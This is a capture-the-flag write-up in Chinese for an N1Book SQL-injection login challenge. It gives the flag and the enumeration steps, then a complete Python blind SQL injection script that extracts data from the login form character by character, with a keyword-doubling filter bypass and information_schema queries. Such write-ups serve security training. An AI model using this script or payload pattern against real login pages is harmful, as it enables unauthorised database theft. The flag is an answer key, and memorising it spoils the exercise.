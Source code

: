```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{login_sqli_is_nice}`

## 思路
1. 访问环境时显示403，可以遍历一下常用的入口文件`index.php、admin.php、webshell.php、login.php`等，此处题目给了提示`login.php、user.php`
2. login.php界面有两种错误反馈，测试出**admin**账户存在
    - 账号或密码错误
    - 账号不存在
3. 与[sql注入-1](./sql注入-1.md)原理相同，判断出用户名处存在字符型sql注入
    ![](./images/sql2-1.png)   
    ![](./images/sql2-2.png)
4. 进一步发现union select注入，由于不展示select到的值，有两个结果作为返回值，开始写脚本进行盲注。
```python
# -*- coding: utf-8 -*-
# @Date    : 2020-12-18
# @Author  : SuperJason
import requests
import string

url = 'http://092604a0-af99-4453-aedd-215fff67f97e.node3.buuoj.cn/login.php'
flag = ''
trueflag='8bef'
falseflag='5728'
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="

# select过滤
for i in range(1,50):
# 由于服务器限制了访问请求，上述for循环可以每次遍历少一点的数量，例如1-5,5-10,....
    # 可打印字符的ASCII码在33-128之间
    left = 32
    right = 127

    while right - left != 1:
        mid = (right + left) // 2        
        # target = 'select database()'        
        # target = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        # target = 'select group_concat(column_name) from information_schema.columns where table_name="fl4g"'
        target = 'select flag from fl4g'

        payload = "'and (ascii(substr(({}), {}, 1))>{})#".format(target, i, mid)
        #payload = payload.replace('from', 'frfromom')
        payload = payload.replace('select', 'selselectect')
        #payload = payload.replace('or', 'oorr')
        #payload = payload.replace('where', 'whwhereere')
        # 此处需要通过burpsuite等工具获得post的参数名
        data = {
            "name": "admin"+payload,
            "pass": 1
        }

        content = requests.post(url, data = data).text
        if trueflag in content:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print (flag)

# note
# fl4g,usc
# flag
# n1book{login_sqli_is_nice}

```